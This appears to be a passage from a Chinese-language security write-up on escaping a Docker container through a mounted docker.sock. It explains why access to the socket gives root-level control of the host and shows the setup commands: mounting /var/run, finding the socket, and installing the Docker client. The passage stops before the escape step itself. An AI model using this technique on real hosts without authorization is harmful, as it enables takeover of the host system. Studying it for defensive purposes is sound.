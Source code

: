 **docker.sock 挂载到容器内部**
- 相关文章
    - [挂载docker.sock导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-docker-sock)

- 概述

    Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon 扮演，二者之间通信方式有以下3种：
    1. unix:///var/run/docker.sock
    2. tcp://host:port
    3. fd://socketfd

    其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载 `/var/run/docker.sock` 文件。

    本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。

    因此，当容器访问 docker socket 时，我们可通过与 docker daemonv 的通信对其进行恶意操纵完成逃逸。若容器A可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

1. 首先运行一个挂载 `/var/run/` 的容器
    ```bash
    docker pull ubuntu:18.04
    docker run -it -v /var/run/:/host/var/run/ ubuntu:18.04 /bin/bash
    ```

2. 寻找下挂载的 sock 文件
    ```bash
    find / -name docker.sock
    ```

3. 在容器内安装 Docker 作为 client
    ```bash
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" > /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    apt-get update
    apt-get install -y docker.io vim
